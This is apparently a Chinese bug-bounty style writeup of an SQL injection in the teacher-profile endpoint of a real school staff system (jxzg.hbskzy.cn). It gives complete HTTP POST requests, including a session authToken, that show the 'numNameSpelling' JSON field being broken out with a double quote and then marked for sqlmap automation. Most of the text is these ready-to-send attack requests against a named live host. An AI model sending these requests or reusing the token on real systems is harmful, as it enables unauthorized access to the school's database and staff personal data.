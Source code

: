 > 000111
>
> 000111

![image-20241015111050303](https://image.201068.xyz/assets/src挖掘/image-20241015111050303.png)

### sql注⼊漏洞

点击教师画像

![image-20241015112652245](https://image.201068.xyz/assets/src挖掘/image-20241015112652245.png)

![image-20241015112839877](https://image.201068.xyz/assets/src挖掘/image-20241015112839877.png)

![image-20241015112912032](https://image.201068.xyz/assets/src挖掘/image-20241015112912032.png)

```bash
POST /Framework//TeacherStaff/getTea HTTP/1.1
Host: jxzg.hbskzy.cn
Content-Length: 81
authToken: 8FFB653879C8104AC377A81D8DAE57B0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Origin: http://jxzg.hbswkj.com
Referer: http://jxzg.hbswkj.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"deptment":null,"nowState":null,"numNameSpelling":"1","pageNum":1,"pageSize":10}
```

![image-20241015113055711](https://image.201068.xyz/assets/src挖掘/image-20241015113055711.png)

#### 双引号闭合

![image-20241015113141136](https://image.201068.xyz/assets/src挖掘/image-20241015113141136.png)



#### sqlmap

```bash
POST /Framework//TeacherStaff/getTea HTTP/1.1
Host: jxzg.hbskzy.cn
Content-Length: 84
authToken: 8FFB653879C8104AC377A81D8DAE57B0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Origin: http://jxzg.hbswkj.com
Referer: http://jxzg.hbswkj.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"deptment":null,"nowState":null,"numNameSpelling":"*","pageNum":1,"pageSize":10}
```
